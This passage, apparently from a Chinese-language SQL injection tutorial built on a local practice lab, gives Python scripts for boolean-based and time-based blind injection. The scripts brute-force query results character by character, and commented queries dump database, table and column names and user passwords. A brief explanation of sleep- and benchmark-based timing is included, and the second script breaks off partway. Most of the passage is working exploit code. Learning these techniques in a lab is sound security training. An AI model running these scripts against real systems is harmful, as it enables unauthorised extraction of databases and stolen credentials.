```python
import requests

def lenth(sql,jiao):#爆破长度
    for i in range(100):
    
        if(len(requests.get('http://192.168.14.137/Less-2/?id=1 and length(('+sql+'))>'+str(i)).text))==jiao:
             return (i)
            
def substrchr(sql,jiao,strlen):#爆破内容
    w=''
    for k in range(1,strlen+1):
        for i in range(33,127):
            if(len(requests.get('http://192.168.14.137/Less-2/?id=1 and ascii(substr(('+sql+'),'+str(k)+',1))>'+str(i)).text))==jiao:                
                w=w+chr(i)
                print(chr(i),end='')
                break
    return (w)


#zheng=len(requests.get('http://192.168.14.137/Less-2/?id=1').text)#721

jiao=len(requests.get('http://192.168.14.137/Less-2/?id=1 and length(database())>1111').text)#670
#sql='select database()' //爆当前库名
#sql='select group_concat(schema_name) from information_schema.schemata' #爆所有库名
#sql='select group_concat(table_name) from information_schema.tables where table_schema=database()'#爆库中所有表名
#sql='select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"'#爆表中所有字段名
sql='select group_concat(password) from users' #爆内容

w=lenth(sql,jiao)

w=substrchr(sql,jiao,w)

```



#### 时间盲注

通过判断页面返回内容的响应时间差异进行条件判断。通常可利用的产生时间延迟的函数有：sleep()、benchmark()，还有许多进行复杂运算的函数也可以当做延迟的判断标准、笛卡尔积合并数据表、GET_LOCK双SESSION产生延迟等方法。

简单的时间盲注入脚本:

```python
import requests
import time

def lenth(sql):
    for i in range(100):
         start=time.time()
         requests.get('http://192.168.14.137/Less-2/?id=1 and if(length(('+sql+'))>'+str(i)+',1,sleep(3) )')
    
         if((time.time()-start)>3):
             print('长度是'+str(i))
             return (i)
            
def substrchr(sql,strlen):
    w=''
    for k in range(1,strlen+1):
        for i in range(33,127):
```